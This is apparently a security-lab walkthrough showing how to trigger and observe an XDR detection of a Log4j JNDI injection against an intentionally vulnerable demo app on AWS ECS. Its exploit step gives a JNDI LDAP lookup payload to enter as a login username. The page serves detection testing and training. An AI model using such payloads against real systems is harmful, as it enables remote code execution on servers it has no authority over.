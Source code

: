# Scenario: Detect JNDI Injection in HTTP Request (Log4j)

***Requires XDR for Containers***

## Prerequisites

- Vision One connected to your AWS Account
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply ecs
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Navigate to <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/todolist>

Click `[Sign in]`

- Username: `${jndi:ldap://host.docker.internal:9999/Commons2}`
- Password: `does not matter`

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-log4j-01.png "Poc")

> ***Note:*** The currently deployed app is not vulnerable for Log4j, the technique from above still triggers the exploitation attempt.
